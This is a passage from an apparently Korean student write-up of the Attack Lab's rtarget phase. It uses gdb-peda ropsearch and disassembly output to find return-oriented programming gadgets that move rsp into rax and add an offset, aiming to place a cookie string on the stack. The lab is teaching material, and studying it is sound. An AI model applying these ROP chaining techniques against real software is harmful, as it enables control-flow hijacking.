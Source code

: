 ```r
gdb-peda$ x/2i 0x00401afa
   0x401afa <setval_426+2>:	mov    %rsp,%rax
   0x401afd <setval_426+5>:	retq
```

`rtarget`에서는 스택의 주소가 항상 바뀌기 때문에, 우선 `rsp`의 주소를 받을 수 있는 가젯이 있는지 찾아보아야 한다. 그래서 `rsp`의 값을 `mov` 할 수 있는 가젯이 있는지 `ropsearch`를 이용하여 찾아보았고, 그 결과 그를 수행할 수 있는 가젯이 존재하는 것을 알 수 있었다. 해당 가젯은 `setval_426`에 존재하는데, 이를 `0x00401afa`부터 읽으면 `mov %rsp,%rax; retq`가 되므로, 우리는 이것을 `mov %rsp,%rax`를 하는 가젯으로 쓸 수 있다. 이제 우리는 `rax`에 `rsp`의 값을 넣을 수 있으므로, `rax`가 스택에 쓸 수 있는 영역을 가리킬 수 있도록 해야한다.  

##### Find Gadget to Set `rax`

```r
gdb-peda$ ropsearch "add ?, ?" 0x401a53 0x401b6c
Searching for ROP gadget: 'add ?, ?' in range: 0x401a53 - 0x401b6c
0x00401a91 : (b'0437c3')	add $0x37,%al; retq
0x00401a8c : (b'0000c3')	add %al,(%rax); retq
0x00401a8a : (b'01000000c3')	add %eax,(%rax); add %al,(%rax); retq
0x00401a8d : (b'00c3488d0437c3')	add %al,%bl; lea (%rdi,%rsi,1),%rax; retq
0x00401a8b : (b'000000c3488d0437c3')	add %al,(%rax); add %al,%bl; lea (%rdi,%rsi,1),%rax; retq
```

```r
gdb-peda$ disas 0x00401a91
Dump of assembler code for function add_xy:
   0x0000000000401a8f <+0>:	lea    (%rdi,%rsi,1),%rax
   0x0000000000401a93 <+4>:	retq   
End of assembler dump.
```

```r
gdb-peda$ x/2i 0x00401a91
   0x401a91 <add_xy+2>:	add    $0x37,%al
   0x401a93 <add_xy+4>:	retq   
```

  `rax`가 스택에 쓸 수 있는 영역을 가리킬 수 있도록 해야하므로, `rax`에 `add`를 하는 가젯을 찾아볼 것이다. 왜냐하면 현재 우리는 스택에 값을 쓸 수 있는 상태인데, 해당 값은 `rsp`보다 큰 주소에 쓰이므로, `rax`에 어떤 수를 더할 수 있는 가젯을 찾아서 해당 주소에 cookie 문자열을 써서 문제를 풀 수 있기 때문이다. 그래서 이를 만족하는 가젯을 찾아본 결과,  `add_xy`에 해당 가젯이 존재하는 것을 알 수 있었다. `0x00401a91`부터 인스트럭션 단위로 읽으면 `add $0x37,%al; retq`로 해석되기 때문에, `add $0x37,%al`를 하는 가젯을 사용할 수 있다. 이를 이용하여 익스플로잇을 짤 수도 있지만, 이것은 `al`에 대해 연산을 수행하기 때문에, 오버플로우가 나서 원하지 않는 결과를 초래할 수도 있다. 그렇기 때문에 우리는 다른 가젯을 사용해야한다. 하지만, 멀리 갈 것도 없이 우리는 덧셈을 하는 또 다른 가젯을 위에서 이미 찾았다. 바로 `add_xy`이다. 이 함수에서는 `rdi`와 `rsi`를 더한 결과를 저장한다. 그러면 이를 이용해서 이제 `rdi`나 `rsi`가 각각 `rsp`나 적절한 상수가 되도록 구성하면 우리는 이 문제를 풀 수 있을 것이다.

##### Find Gadget to Set `rdi` to `rsp`

```r
gdb-peda$ ropsearch "mov ?, rdi" 0x401a53 0x401b6c
Searching for ROP gadget: 'mov ?, rdi' in range: 0x401a53 - 0x401b6c
0x00401a70 : (b'4889c7c3')	mov %rax,%rdi; retq
0x00401a62 : (b'4889c7c3')	mov %rax,%rdi; retq
0x00401a69 : (b'4889c792c3')	mov %rax,%rdi; xchg %eax,%edx; retq
```

```R
gdb-peda$ disas 0x00401a70
Dump of assembler code for function addval_138:
   0x0000000000401a6e <+0>:	lea    -0x3c3876b8(%rdi),%eax
   0x0000000000401a74 <+6>:	retq   
End of assembler dump.
```
